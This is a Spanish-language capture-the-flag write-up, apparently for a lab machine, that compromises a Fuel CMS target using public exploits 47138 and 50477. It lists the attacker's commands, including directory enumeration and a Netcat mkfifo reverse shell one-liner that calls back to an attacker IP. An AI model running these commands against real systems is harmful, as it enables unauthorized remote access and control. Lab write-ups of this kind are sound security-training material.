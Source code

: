 Para ver el código y ajustarlo a mis necesidades, lo copie a mi directorio de trabajo
```
searchsploit -m 47138
```

![](/images/ignite/Pasted image 20240628171741.png)

Luego con nano, edite el archivo, para ingresar la dirección IP del Target:

![](/images/ignite/Pasted image 20240628171946.png)

Al ejecutar este exploit, obtuve muchos errores:

![](/images/ignite/Pasted image 20240628172341.png)

Intente modificar el código, pero no tuve éxito, así que opte por utilizar otro exploit:

![](/images/ignite/Pasted image 20240628172507.png)

Revisando el código del exploit, vi que la forma de utilizarlo, es ejecutando, y agregar la dirección IP:

```
python3 50477.py -u http://10.10.33.48
```

El exploit funciono correctamente, y se logro establecer una conexón con el target:

![](/images/ignite/Pasted image 20240628172831.png)

Se comenzó, por listar los recursos del directorio actual:

![](/images/ignite/Pasted image 20240628173306.png)

Para listar todos los posibles directorios y archivos, y econtrar más vectores de ataque, se utilizo el comando:

```
ls -la ../../../*
```

![](/images/ignite/Pasted image 20240628173524.png)

Se listo el directorio del usuario: www-data:

![](/images/ignite/Pasted image 20240628174629.png)

Para tener una conexión más estable, implemente una ReverShell con Netcat:

En Kali
```
rlwrap nc -vlnp 445
```
En el Target:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.16.176 445 >/tmp/f
```
Fuente de la `revershell`: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
